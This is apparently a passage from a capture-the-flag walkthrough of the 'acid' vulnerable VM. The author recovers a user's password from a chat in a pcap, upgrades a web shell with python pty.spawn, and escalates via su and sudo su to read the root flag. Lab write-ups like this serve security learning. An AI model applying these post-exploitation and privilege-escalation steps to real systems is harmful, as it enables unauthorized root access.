 We open the pcap file with [wireshark](https://www.wireshark.org/). There is a
lot of information in this file, over 6 000 trams.
On the 6 212 we notice some sort of text. By following the TCP stream (wireshark
function) we discover what seems to be a chat exchange:

> heya
>
> hello
> What was the name of the Culprit ???
>
> saman and now a days he's known by the alias of 1337hax0r
>
> oh...Fuck....Great...Now, we gonna Catch Him Soon :D
>
> Yes .. We have to !! The mad bomber is on a rage
>
> Ohk...cya
>
> Over and Out

Great, what does it means? We know that saman is one of the user on the machine.
Maybe we got some hints about it password or something like that.

### interactive shell

In order to execute a su, we need a interactive shell (with
[pty/tty](https://en.wikipedia.org/wiki/Pseudoterminal)).
Once more [pentest monkey](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
will help us:

    python -c 'import pty; pty.spawn("/bin/sh")'

As `/bin/sh` is a symlink to dash, we directly use bash:

    python -c 'import pty; pty.spawn("/bin/bash")'

We now need to try to connect as saman.

## Saman

With our beautiful shell we jut have to `su saman` to try to connect as saman:

    www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
    su saman
    Password: 1337hax0r

It works! Let us try `sudo su`:

    saman@acid:/var/www/html/Challenge/Magic_Box$ sudo su
    sudo su
    [sudo] password for saman: 1337hax0r
    root@acid:/var/www/html/Challenge/Magic_Box# cat /root/flag.txt
    cat /root/flag.txt


    Dear Hax0r,
